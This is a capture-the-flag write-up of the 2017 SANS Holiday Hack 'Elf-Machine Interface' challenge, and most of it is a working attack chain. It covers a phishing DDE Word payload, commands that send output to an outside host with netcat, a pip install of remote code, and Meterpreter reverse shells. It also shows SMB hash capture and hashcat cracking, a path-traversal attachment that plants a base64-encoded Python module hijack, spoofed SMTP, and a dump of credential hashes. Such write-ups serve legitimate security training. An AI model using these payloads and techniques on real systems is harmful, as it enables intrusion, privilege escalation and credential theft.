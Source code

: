 * Question
   :PROPERTIES:
   :CUSTOM_ID: q7_question
   :END:

Like any other complex SCADA systems, the North Pole uses Elf-Machine
Interfaces (EMI) to monitor and control critical infrastructure
assets. These systems serve many uses, including email access and web
browsing. Gain access to the EMI server through the use of a phishing
attack with your access to the EWA server. Retrieve The Great Book
page from C:\GreatBookPage7.pdf. What does The Great Book page
describe?

/Shinny Upatree offers hints for this challenge inside the North Pole and Beyond./

* Background Information
   :PROPERTIES:
   :CUSTOM_ID: q7_background-information
   :END:

#+begin_hint
I'm still a little angry with Alabaster for reprimanding me for a security violation. He still checks his email from the EMI system!
#+end_hint

#+begin_hint
He tells us not to install unnecessary software on systems, but he's running IIS with ASPX services on the EMI server, and Microsoft Office!
#+end_hint

#+begin_hint
Personally, I don't use Microsoft Word. I'll take vim and LaTeX any day. Word does have its advantages though, including some of the Dynamic Data Exchange features for transferring data between applications and obtaining data from external data sources, including executables.
#+end_hint

The question gives us a place to start. As we were reviewing the e-mails for Question 4, a few intriguing ones stood out:

#+BEGIN_QUOTE
*From*: minty.candycane@northpolechristmastown.com

*To*: alabaster.snowball@northpolechristmastown.com

*Subject*: Should we be worried?



Hey Alabaster,

You know I'm a novice security enthusiast, well I saw an article a while 
ago about regarding DDE exploits that dont need macros for MS word to 
get command execution.

https://sensepost.com/blog/2017/macro-less-code-exec-in-msword/

Should we be worried about this?

I tried it on my local machine and was able to transfer a file. Here's a 
poc:

[[./images/dde_exmaple_minty_candycane_small.png]]

I know your the resident computer engineer here so I wanted to defer to 
the expert.

:)

-Minty CandyCane.
#+END_QUOTE

This certainly seems to line up with the hints that we were given. Alabaster's not worried, however:

#+BEGIN_QUOTE
*Subject*: Re: Should we be worried?


Quit worrying Minty,

You have nothing to worry about with me around! I have developed most of 
the applications in our network including our network defenses. We are 
are completely secure and impenetrable.

Sincerely,

Alabaster Snowball.
#+END_QUOTE

The other e-mails that seemed intriguging were these two, also from Alabaster:

#+BEGIN_QUOTE
*Subject*: gingerbread cookie recipe


Hey Mrs Claus,

Do you have that awesome gingerbread cookie recipe you made for me last year? You sent it in a MS word .docx file. I would totally open that 
docx on my computer if you had that. I would click on anything with the words gingerbread cookie recipe in it. I'm totally addicted and want to 
make some more.

Thanks,

Alabaster Snowball
#+END_QUOTE

#+BEGIN_QUOTE
*Subject*: Re: COOKIES!


Awesome, yea if anyone finds that .docx file containing the recipe for "gingerbread cookie recipe", please send it to me in a docx file. Im 
currently working on my computer and would totally download that to my machine, open it, and click to all the prompts.


Thanks!

Alabaster Snowball.
#+END_QUOTE

#+CAPTION: Artist's Rendering of Alabaster Snowball
[[./images/cookies.jpg]]

* Goal
   :PROPERTIES:
   :CUSTOM_ID: q7_goal
   :END:

We're trying to craft a malicious .docx file which we'll e-mail to
alabaster.snowball@northpolechristmastown.com via the EWA system. When
Alabaster opens the e-mail on the EMI system, the command that we
embed in the file should get us access to =C:\GreatBookPage7.pdf=.

* Approach
   :PROPERTIES:
   :CUSTOM_ID: q7_approach
   :END:

At this point, we have a pretty good idea of what we need to do. The
sensepost blog post gives us some good instructions at how to
construct a malicious docx, and we know how to get Alabaster to click
on it.

However, there's a slightly easier way. On the SMB FileStor, we found
a docx that Shinny created for Wunorse. If we show the fields (Alt+F9
on Windows, Option+F9 on Mac), we see that this document has a DDE
field we can just modify.

[[./images/wunorse_docx.png]]

Shinny told us that the EMI system also runs IIS, so let's just try copying the PDF into the default IIS webroot.

We'll open up =MEMO - Calculator Access for Wunorse.docx=, and edit the command to:

#+BEGIN_SRC 
DDEAUTO c:\\windows\\system32\\cmd.exe "/k copy C:\\GreatBookPage7.pdf 
C:\\inetpub\\wwwroot\\4beadb1e-5ddb-4636-98a4-c2dac0f79ab3.pdf"
#+END_SRC

Then, we use the EWA web interface to send an e-mail to Alabaster,
with the document attached. We make sure to include the words
"gingerbread," "cookie," and "recipe" in the message body, since he
told us that that's what he'll click on.

After we send the message, we wait a few minutes, and soon the file shows up!

* Solution
   :PROPERTIES:
   :CUSTOM_ID: q7_solution
   :END:

We modified =MEMO - Calculator Access for Wunorse.docx= to copy the PDF into the IIS webroot, e-mailed that to Alabaster, then downloaded the copy of the file once it showed up.

* Going Deeper -- Command Execution

Getting the PDF is cool, but what else can we find on this system? Some of the other e-mails harp on Alabaster having installed =netcat=, and having it in his path. Let's run a command, and pipe the result to =netcat=, which will send it back to our system:

#+BEGIN_SRC 
DDEAUTO c:\\windows\\system32\\cmd.exe "/k dir C:\\ | nc 1.2.3.4 8888"
#+END_SRC

On our system, we start a =netcat= listener:

#+BEGIN_SRC 
$ nc -l -p 8888
 Volume in drive C has no label.
 Volume Serial Number is 9454-C240

 Directory of C:\

12/04/2017  08:42 PM         1,053,508 GreatBookPage7.pdf
11/14/2017  07:57 PM    <DIR>          inetpub
09/12/2016  11:35 AM    <DIR>          Logs
12/05/2017  05:00 PM    <DIR>          Microsoft
07/16/2016  01:23 PM    <DIR>          PerfLogs
11/15/2017  02:35 PM    <DIR>          Program Files
11/14/2017  08:24 PM    <DIR>          Program Files (x86)
11/15/2017  03:03 PM    <DIR>          python
11/14/2017  08:39 PM    <DIR>          Users
11/30/2017  06:23 PM    <DIR>          Windows
               1 File(s)      1,053,508 bytes
               9 Dir(s)  33,072,455,680 bytes free

C:\Users\alabaster_snowball\Documents>
#+END_SRC

Success! At this point, we started working on a way to automate
this. However, more complex commands would often not work, due to
issues with escaping. So instead of using =cmd.exe= as our delivery
mechanism, we used Python.

Python is installed on the system, and a simple command that we can run is to install a Python module via pip:

#+BEGIN_SRC sh
python.exe -m pip install http://1.2.3.4/foo.tar.gz
#+END_SRC

When pip installs a module, it will run the =setup.py= file. By adding
arbitrary Python code to this file, we can execute commands without
needing to worry about encoding them in a Word document, etc.

For a more in-depth discussion about why we used pip here, see [[#pip][the appendix]].

The end result was writing a complete end-to-end script, which will
build a malicious Word document, e-mail it, create a malicious Python
module, and use it to download the PDF.

* Level 2 -- Meterpreter Shell

#+begin_note
Originally, the system had Windows Defender enabled, which would block some default Meterpreter payloads
#+end_note

Instead of just downloading the PDF file, we can modify our script to send a Python meterpreter payload.

We start Meterpreter listening on our local system:

#+BEGIN_SRC 
$ msfconsole -r python-meterpreter-staged-reverse-tcp-4444-py.rc

 _                                                    _
/ \    /\         __                         _   __  /_/ __
| |\  / | _____   \ \           ___   _____ | | /  \ _   \ \
| | \/| | | ___\ |- -|   /\    / __\ | -__/ | || | || | |- -|
|_|   | | | _|__  | |_  / -\ __\ \   | |    | | \__/| |  | |_
      |/  |____/  \___\/ /\ \\___/   \/     \__|    |_\  \___\


       =[ metasploit v4.16.14-dev-140955f                 ]
+ -- --=[ 1698 exploits - 969 auxiliary - 299 post        ]
+ -- --=[ 500 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc for ERB directives.
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> use exploit/multi/handler
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set PAYLOAD python/meterpreter/reverse_tcp
PAYLOAD => python/meterpreter/reverse_tcp
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set LHOST 1.2.3.4
LHOST => 1.2.3.4
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set LPORT 4444
LPORT => 4444
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> set ExitOnSession false
ExitOnSession => false
resource (msf_payloads/python-meterpreter-staged-reverse-tcp-4444-py.rc)> run -j
[*] Exploit running as background job 0.
[*] Started reverse TCP handler on 1.2.3.4:4444
#+END_SRC

Now we use our all-in-one script to send Alabaster our malicious file:

#+BEGIN_SRC 
$ ./full_phish.py                                                                                                                                                                                                                                         master
Using 1.2.3.4 as external IP
Found word/document.xml, rewriting 50793 bytes
Before:
DEAUTO c:\\windows\\system32\\cmd.exe "/k calc.exe"
After:
DEAUTO c:\\windows\\system32\\cmd.exe "/k python.exe -m pip install http://1.2.3.4:8888/foo-1.0.tar.gz"
File uploaded and available at http://mail.northpolechristmastown.com/attachments/emusQH5oH5K2hzajPFvJbTGMuS__gingerbreadcookierecipe.docx
Sending message...

{'result': 'Message <f67b9d00-b263-2fdf-f3d1-2d679bbca9f4@northpolechristmastown.com> sent: 250 2.0.0 Ok: queued as 28EF1C356D', 'bool': True}
Using 1.2.3.4 as external IP
Listening on port 44665
Starting server on port 8888, use <Ctrl-C> to stop
Serving request 1 of 1...
/foo-1.0.tar.gz foo-1
35.185.57.190 - - [10/Jan/2018 03:14:47] "GET /foo-1.0.tar.gz HTTP/1.1" 200 -
#+END_SRC

And sure enough, we see a new session in Meterpreter:

#+BEGIN_SRC 
msf exploit(handler) >
[*] Sending stage (42231 bytes) to 35.185.57.190
[*] Meterpreter session 1 opened (1.2.3.4:4444 -> 35.185.57.190:52319) at 2018-01-10 03:15:51 +0000

msf exploit(handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > sysinfo
Computer        : hhc17-smb-server
OS              : Windows 2016 (Build 14393)
Architecture    : x64
System Language : en_US
Meterpreter     : python/windows
#+END_SRC

* Getting Alabaster's Password

Being able to use Meterpreter is nice, but it sure would be cool if we
could Remote Desktop, or see if Alabaster's password is in use
elsewhere. We'll use Metasploit's SMB Authentication Capture module.

#+begin_tip
Try to avoid running Metasploit as root. In this case, we'll need to bind to a privileged port (445), but we can use =iptables= to redirect our traffic instead:
=sudo iptables -A PREROUTING -t nat -p tcp --dport 445 -j REDIRECT --to-port 3445=
#+end_tip

#+BEGIN_SRC 
msf exploit(handler) > use auxiliary/server/capture/smb
msf auxiliary(smb) > info

       Name: Authentication Capture: SMB
     Module: auxiliary/server/capture/smb
    License: Metasploit Framework License (BSD)
       Rank: Normal

Provided by:
  hdm <x@hdm.io>

Available actions:
  Name     Description
  ----     -----------
  Sniffer

Basic options:
  Name        Current Setting   Required  Description
  ----        ---------------   --------  -----------
  CAINPWFILE                    no        The local filename to store the hashes in Cain&Abel format
  CHALLENGE   1122334455667788  yes       The 8 byte server challenge
  JOHNPWFILE                    no        The prefix to the local filename to store the hashes in John format
  SRVHOST     0.0.0.0           yes       The local host to listen on. This must be an address on the local machine or 0.0.0.0
  SRVPORT     445              yes       The local port to listen on.

Description:
  This module provides a SMB service that can be used to capture the
  challenge-response password hashes of SMB client systems. Responses
  sent by this service have by default the configurable challenge
  string (\x11\x22\x33\x44\x55\x66\x77\x88), allowing for easy
  cracking using Cain & Abel, L0phtcrack or John the ripper (with
  jumbo patch). To exploit this, the target system must try to
  authenticate to this module. One way to force an SMB authentication
  attempt is by embedding a UNC path (\\SERVER\SHARE) into a web page
  or email message. When the victim views the web page or email, their
  system will automatically connect to the server specified in the UNC
  share (the IP address of the system running this module) and attempt
  to authenticate. Another option is using
  auxiliary/spoof/{nbns,llmnr} to respond to queries for names the
  victim is already looking for.

msf auxiliary(smb) > set SRVPORT 3445
SRVPORT => 3445
msf auxiliary(smb) > set JOHNPWFILE alabaster_snowball.john
JOHNPWFILE => alabaster_snowball.john
msf auxiliary(smb) > run
[*] Auxiliary module running as background job 3.
#+END_SRC

Now, we'll send the following command via e-mail:

#+BEGIN_SRC 
DDEAUTO c:\\windows\\system32\\cmd.exe "/k dir \\\\1.2.3.4\\a"
#+END_SRC

And sure enough, we get the following hashes:

#+BEGIN_SRC 
[*] SMB Captured - 2018-12-20 17:08:24 +0000
NTLMv2 Response Captured from 35.185.57.190:49759 - 35.185.57.190
USER:alabaster_snowball DOMAIN:HHC17-SMB-SERVE OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:314d4bd798cac0c5fa2bb107ba248cc6
NT_CLIENT_CHALLENGE:0101000000000000d1b912a0358ad30143592f0cabfa891000000000020000000000000000000000
[*] SMB Captured - 2018-12-20 17:08:24 +0000
NTLMv2 Response Captured from 35.185.57.190:49759 - 35.185.57.190
USER:alabaster_snowball DOMAIN:HHC17-SMB-SERVE OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:aaa7328ccd721a5e96bfb188eb4ecbdd
NT_CLIENT_CHALLENGE:010100000000000001431ca0358ad301c89b21fb5e4c160d00000000020000000000000000000000
[*] SMB Captured - 2018-12-20 17:08:24 +0000
NTLMv2 Response Captured from 35.185.57.190:49759 - 35.185.57.190
USER:alabaster_snowball DOMAIN:HHC17-SMB-SERVE OS: LM:
LMHASH:Disabled
LM_CLIENT_CHALLENGE:Disabled
NTHASH:71570491da3f413ce830788429820789
NT_CLIENT_CHALLENGE:010100000000000024042ba0358ad301a28a0bc07ea8214300000000020000000000000000000000
#+END_SRC

We now have the following file:

#+BEGIN_SRC 
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:3d0a58908a34215103b43a000b5807ab:0101000000000000f0a52fe4358ad3018486290b6477913300000000020000000000000000000000
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:5c63d79712f174de38ee30de2136b53e:0101000000000000e4e554e4358ad301fee549fa52c9b5ef00000000020000000000000000000000
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:de4559d983096a0a895484a61834283f:0101000000000000fb6a68e4358ad301645b79e4a5ed58c300000000020000000000000000000000
#+END_SRC

We'll use =hashcat= to crack this:

#+BEGIN_SRC 
hashcat64.bin -m 5600 -a 0 alabaster_snowball.john.netntlmv2 wordlist.txt -O -w 4
...
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:3d0a58908a3...:Carried_mass_it_reader1
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:5c63d79712f...:Carried_mass_it_reader1
alabaster_snowball::HHC17-SMB-SERVE:1122334455667788:de4559d9830...:Carried_mass_it_reader1
Session..........: hashcat
Status...........: Cracked
Hash.Type........: NetNTLMv2
...
#+END_SRC

Armed with a password, we can remote desktop:

#+CAPTION: Logging in to EMI as Alabaster via RDP
#+attr_html: :width 500px
[[./images/alabaster_rdp.png]]

Woot! We're hand-waving some of this for now, as there will be a
longer discussion about [[#passphrases][how we cracked passwords].

* Next up -- Privilege Escalation!

Unfortunately, our commands only run as Alabaster, who is just a
regular user on the EMI system. We can do better than that.

Once we got command execution on this system, we started looking to
see what was running. It was obvious that Office was not installed,
and we started to question whether Alabaster even used this system, or
if it was all a big charade.

We found that the system was running a service, called
=WindowsGrabber= which would download new e-mails, try to parse out
their DDE payloads, and execute them. It did this via =C:\Program Files\WindowsGrabber\alabaster_snowball.py=. That file also had credentials for the EWA system:

#+BEGIN_SRC python
srverAddress = '10.142.0.5'
#srverAddress = '35.185.115.185'
user = 'alabaster.snowball@northpolechristmastown.com'
passw = 'power instrument gasoline film'
#+END_SRC

(As an aside, this code snippet also confirmed our theory about the
systems moving from the public IPs we found during the Recon stage, to
private ones).

This service was running as the alabaster_snowball user that we could
already run commands as, so it wasn't a target for privilege
elevation.

...and then, on December 23rd, all of that changed. The setup was
changed, so now two services were running: =WindowsGrabber= was now
running as =LocalSystem=, a very privileged account on Windows, and
=agrabber= was running as Alabaster. The Python script was no longer
readable by Alabaster, but it was modified so that instead of directly
running the commands, it would write them to a file, and then the
lesser-privileged =agrabber= service would run them from that file.

Unfortunately, there was a vulnerability in
=alabaster_snowball.py=. It turns out that there are two ways to send
the file to Alabaster: we can either attach it via the EWA webmail
interface, which uploads a copy to =mail.northpolechristmastown.com=
and inserts a link in the e-mail, *OR* we can simply attach it to the
e-mail. In the case of the latter, the script does the following:

#+BEGIN_SRC python
def save_attachment(self, msg):
    """
    Given a message, save its attachments to the specified
    download folder (default is /tmp)

    return: file path to attachment
    """
    download_folder = tempfile.mkdtemp()
    att_path = False
    for part in msg.walk():
        if part.get_content_maintype() == 'multipart':
            continue
        if part.get('Content-Disposition') is None:
            continue

        filename = part.get_filename()
        att_path = os.path.join(download_folder, filename)

        if not os.path.isfile(att_path):
            fp = open(att_path, 'wb')
            fp.write(part.get_payload(decode=True))
            fp.close()
    return att_path
#+END_SRC

The issue here is the line:

#+BEGIN_SRC python
att_path = os.path.join(download_folder, filename)
#+END_SRC

The filename is controlled by us, as it comes from the e-mail message
itself. By prefixing our filename with =../../../..= we can write
anywhere on the system, as the LocalSystem account.

With unrestricted write access, how can we turn that into code
execution? We could a number of techniques, such as DLL hijacking, but
many are made more difficult by the fact that we can't *read* files
with our privileged access, only write to them.

Once again, we turned to Python. We targetted the
=alabaster_snowball.py= script itself, with Python module
injection. An import command such as:

#+BEGIN_SRC python
import glob
#+END_SRC

will cause Python to search for =glob.py= in the current directory,
and then in some system-wide directories. If we can write a malicious
=C:\Program Files\WindowsGrabber\glob.py=, the next time the service restarts, our code will run as LocalSystem.

#+begin_danger
These files can break the =alabaster_snowball.py= script. Because they're being written as privileged, the regular Alabaster account cannot modify or delete them. Take great care in what you send!
#+end_danger

Our file ends up looking like this:

#+BEGIN_SRC python
import sys, imp, os
def get_mod(modname):
    fd, path, desc = imp.find_module(modname, sys.path[::-1])
    return imp.load_module("orig_" + modname, fd, path, desc)

locals().update(vars(get_mod(__name__)))

try:
    if not os.path.isfile("C:/Windows/Temp/have_run"):
        os.system('nssm install zGrabber C:\\Users\\ALABAS~1\\AppData\\Local\\Temp\\2\\4445.exe')
        open("C:/Windows/Temp/have_run", 'a').close()
    os.system('nssm start zGrabber')
except:
    print("Could not run")
#+END_SRC

The top half loads the actual glob module, and makes it available to
anything that imported our malicious glob module. The bottom half
creates a new service, which will run a file that we uploaded,
4445.exe. This service uses the Non-Sucking Service Manager (nssm)
that manages the other Grabber services, and will be installed as a
LocalSystem service as well. Finally, we start our service, and ignore
any exceptions in case we made a mistake.

Getting this file right was a little nerve-wracking, and required a
great deal of testing. The vulnerability we found will only allow you
to write new files, and because the files are written as the
LocalSystem account, there was no way to modify or delete them once
written if this did not work.

Now, we craft an e-mail, which has our base64-encoded glob.py as an
attachment, and we give the attachment a filename that will put it in
the right place:

#+BEGIN_SRC 
HELO l2s
MAIL FROM:<wunorse.openslae@northpolechristmastown.com>
RCPT TO:<alabaster.snowball@northpolechristmastown.com>
DATA
MIME-Version: 1.0
Subject: Test E-mail
From: wunorse.openslae@northpolechristmastown.com
To: alabaster.snowball@northpolechristmastown.com
Content-Type: multipart/mixed; boundary="089e082f74245acc5b05624d7433"

--089e082f74245acc5b05624d7433
Content-Type: multipart/alternative; boundary="089e082f74245acc5605624d7431"

--089e082f74245acc5605624d7431
Content-Type: text/plain; charset="UTF-8"

gingerbread cookie recipe


--089e082f74245acc5b05624d7433
Content-Type: text/x-python-script; charset="US-ASCII"; name="glob.py"
Content-Disposition: attachment; filename="../../../../../../../../../../../../Program Files/WindowsGrabber/glob.py"
Content-Transfer-Encoding: base64
X-Attachment-Id: f_jc6xkfum1

aW1wb3J0IHN5cywgaW1wLCBvcwpkZWYgZ2V0X21vZChtb2RuYW1lKToKICAgIGZkLCBwYXRoLCBk
ZXNjID0gaW1wLmZpbmRfbW9kdWxlKG1vZG5hbWUsIHN5cy5wYXRoWzo6LTFdKQogICAgcmV0dXJu
IGltcC5sb2FkX21vZHVsZSgib3JpZ18iICsgbW9kbmFtZSwgZmQsIHBhdGgsIGRlc2MpCgpsb2Nh
bHMoKS51cGRhdGUodmFycyhnZXRfbW9kKF9fbmFtZV9fKSkpCgp0cnk6CiAgICBpZiBub3Qgb3Mu
cGF0aC5pc2ZpbGUoIkM6L1dpbmRvd3MvVGVtcC9oYXZlX3J1biIpOgogICAgICAgIG9zLnN5c3Rl
bSgnbnNzbSBpbnN0YWxsIHpHcmFiYmVyIEM6XFxVc2Vyc1xcQUxBQkFTfjFcXEFwcERhdGFcXExv
Y2FsXFxUZW1wXFwyXFw0NDQ1LmV4ZScpCiAgICAgICAgb3BlbigiQzovV2luZG93cy9UZW1wL2hh
dmVfcnVuIiwgJ2EnKS5jbG9zZSgpCiAgICBvcy5zeXN0ZW0oJ25zc20gc3RhcnQgekdyYWJiZXIn
KQpleGNlcHQ6CiAgICBwcmludCgiQ291bGQgbm90IHJ1biIpCg==

--089e082f74245acc5b05624d7433--
.

#+END_SRC

Now we just send that over =netcat=, and wait:

#+BEGIN_SRC 
$ nc mail.northpolechristmastown.com 25
220 mail.northpolechristmastown.com ESMTP Postfix
HELO l2s
250 mail.northpolechristmastown.com
MAIL FROM:<wunorse.openslae@northpolechristmastown.com>
250 2.1.0 Ok
RCPT TO:<alabaster.snowball@northpolechristmastown.com>
550 5.7.1 <alabaster.snowball@northpolechristmastown.com>: Recipient address rejected: Message rejected due to: SPF fail - not authorized. 
Please see http://www.openspf.net/Why?s=mfrom;id=wunorse.openslae@northpolechristmastown.com;ip=10.142.0.3;r=alabaster.snowball@northpolechristmastown.com
#+END_SRC

Foiled! If we dig a little deeper however, and we use our =nmap= scan results, we'll find that there's another SMTP service listening on port 2525 which *will* allow us to send our e-mail:

#+BEGIN_SRC 
220 mail.northpolechristmastown.com ESMTP Postfix
HELO l2s
250 mail.northpolechristmastown.com
MAIL FROM:<wunorse.openslae@northpolechristmastown.com>
250 2.1.0 Ok
RCPT TO:<alabaster.snowball@northpolechristmastown.com>
250 2.1.5 Ok
DATA
354 End data with <CR><LF>.<CR><LF>
MIME-Version: 1.0
Subject: Test E-mail
...
--089e082f74245acc5b05624d7433--
.
250 2.0.0 Ok: queued as 1755CC35D2
#+END_SRC

If we do a directory listing, we see that our plan worked:

#+BEGIN_SRC 
Mode              Size  Type  Last modified              Name
----              ----  ----  -------------              ----
100666/rw-rw-rw-  7670  fil   2017-12-23 04:28:42 +0000  alabaster_snowball.py
100666/rw-rw-rw-  257   fil   2017-12-23 05:17:52 +0000  execute.ps1
100666/rw-rw-rw-  0     fil   2018-01-09 01:25:40 +0000  file.txt
100666/rw-rw-rw-  228   fil   2018-01-09 01:25:36 +0000  glob.py
#+END_SRC

Now we just need to launch Metasploit and wait for the service to restart...

#+BEGIN_SRC 
$ msfconsole -r windows-meterpreter-stageless-reverse-tcp-4445-exe.rc


     .~+P``````-o+:.                                      -o+:.
.+oooyysyyssyyssyddh++os-`````                        ```````````````          `
+++++++++++++++++++++++sydhyoyso/:.````...`...-///::+ohhyosyyosyy/+om++:ooo///o
++++///////~~~~///////++++++++++++++++ooyysoyysosso+++++++++++++++++++///oossosy
--.`                 .-.-...-////+++++++++++++++////////~~//////++++++++++++///
                                `...............`              `...-/////...`


                                  .::::::::::-.                     .::::::-
                                .hmMMMMMMMMMMNddds\...//M\\.../hddddmMMMMMMNo
                                 :Nm-/NMMMMMMMMMMMMM$$NMMMMm&&MMMMMMMMMMMMMMy
                                 .sm/`-yMMMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMMh`
                                  -Nd`  :MMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMMh`
                                   -Nh` .yMMMMMMMMMM$$MMMMMN&&MMMMMMMMMMMm/
    `oo/``-hd:  ``                 .sNd  :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMm/
      .yNmMMh//+syysso-``````       -mh` :MMMMMMMMMM$$MMMMMN&&MMMMMMMMMMd
    .shMMMMN//dmNMMMMMMMMMMMMs`     `:```-o++++oooo+:/ooooo+:+o+++oooo++/
    `///omh//dMMMMMMMMMMMMMMMN/:::::/+ooso--/ydh//+s+/ossssso:--syN///os:
          /MMMMMMMMMMMMMMMMMMd.     `/++-.-yy/...osydh/-+oo:-`o//...oyodh+
          -hMMmssddd+:dMMmNMMh.     `.-=mmk.//^^^\\.^^`:++:^^o://^^^\\`::
          .sMMmo.    -dMd--:mN/`           ||--X--||          ||--X--||
........../yddy/:...+hmo-...hdd:............\\=v=//............\\=v=//.........
================================================================================
=====================+--------------------------------+=========================
=====================| Session one died of dysentery. |=========================
=====================+--------------------------------+=========================
================================================================================

                     Press ENTER to size up the situation

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%% Date: April 25, 1848 %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%% Weather: It's always cool in the lab %%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Health: Overweight %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%% Caffeine: 12975 mg %%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%% Hacked: All the things %%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

                        Press SPACE BAR to continue



       =[ metasploit v4.16.14-dev-140955f                 ]
+ -- --=[ 1698 exploits - 969 auxiliary - 299 post        ]
+ -- --=[ 500 payloads - 40 encoders - 10 nops            ]
+ -- --=[ Free Metasploit Pro trial: http://r-7.co/trymsp ]

[*] Processing msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc for ERB directives.
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> use exploit/multi/handler
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set PAYLOAD windows/meterpreter_reverse_tcp
PAYLOAD => windows/meterpreter_reverse_tcp
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set LHOST 1.2.3.4
LHOST => 1.2.3.4
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set LPORT 4445
LPORT => 4445
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> set ExitOnSession false
ExitOnSession => false
resource (msf_payloads/windows-meterpreter-stageless-reverse-tcp-4445-exe.rc)> run -j
[*] Exploit running as background job 0.
Meterpreter session 1 opened (1.2.3.4:4445 -> 35.185.57.190:49672) at 2018-01-09 05:08:43 +0000
msf exploit(handler) > sessions

Active sessions
===============

  Id  Name  Type                     Information                            Connection
  --  ----  ----                     -----------                            ----------
  1         meterpreter x64/windows  NT AUTHORITY\SYSTEM @ HHC17-SMB-SERVE  1.2.3.4:4445 -> 35.185.57.190:49756 (10.142.0.8)
#+END_SRC

And now, we've managed to elevate our credentials. There are a few
"post-exploitation" modules for Meterpreter, which will use our
session. For instance, let's dump the hashes on the system:

#+BEGIN_SRC 
msf exploit(handler) > set -g SESSION 1
SESSION => 1
msf exploit(handler) > use post/windows/gather/credentials/credential_collector
msf post(credential_collector) > run

[*] Running module against HHC17-SMB-SERVE
[+] Collecting hashes...
    Extracted: Administrator:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: alabaster_snowball:aad3b435b51404eeaad3b435b51404ee:10e2fa00c44d10ca05d399f47ed13351
    Extracted: DefaultAccount:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: Guest:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
    Extracted: sysadmin:aad3b435b51404eeaad3b435b51404ee:27309e9a73764938860b4a1ed7c0392b
[+] Collecting tokens...
    HHC17-SMB-SERVE\alabaster_snowball
    IIS APPPOOL\DefaultAppPool
    NT AUTHORITY\IUSR
    NT AUTHORITY\LOCAL SERVICE
    NT AUTHORITY\NETWORK SERVICE
    NT AUTHORITY\SYSTEM
    Window Manager\DWM-1
    NT AUTHORITY\ANONYMOUS LOGON
